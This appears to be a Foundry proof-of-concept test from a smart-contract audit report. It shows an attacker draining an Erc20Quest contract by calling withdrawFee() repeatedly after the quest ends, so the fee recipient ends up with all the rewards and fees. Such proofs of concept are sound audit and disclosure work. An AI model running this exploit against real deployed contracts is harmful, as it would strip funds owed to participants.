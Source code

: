 ```solidity
        address alice = makeAddr("alice");
        address attacker = makeAddr("attacker");

        uint256 startTime = block.timestamp + 1 hours;
        uint256 endTime = startTime + 1 hours;
        uint256 totalParticipants = 1;
        uint256 rewardAmountOrTokenId = 1 ether;
        string memory questId = "a quest";

        // create, fund and start quest
        vm.startPrank(deployer);

        Erc20Quest quest = Erc20Quest(
            factory.createQuest(
                address(token),
                endTime,
                startTime,
                totalParticipants,
                rewardAmountOrTokenId,
                "erc20",
                questId
            )
        );

        uint256 rewards = totalParticipants * rewardAmountOrTokenId;
        uint256 fees = (rewards * factory.questFee()) / 10_000;
        deal(address(token), address(quest), rewards + fees);
        quest.start();

        vm.stopPrank();

        // simulate at least one user claims a receipt
        claimReceipt(alice, questId);

        // simulate time elapses until the end of the quest
        vm.warp(endTime);

        // The following can be executed by attacker (griefer) or by the fee recipient
        vm.startPrank(attacker);

        uint256 protocolFee = quest.protocolFee();
        uint256 withdrawCalls = (rewards + fees) / protocolFee;

        for (uint256 i = 0; i < withdrawCalls; i++) {
            quest.withdrawFee();
        }

        // Fee recipient has 100% of the funds
        assertEq(token.balanceOf(protocolFeeRecipient), rewards + fees);
        assertEq(token.balanceOf(address(quest)), 0);

        vm.stopPrank();
    }
}
```
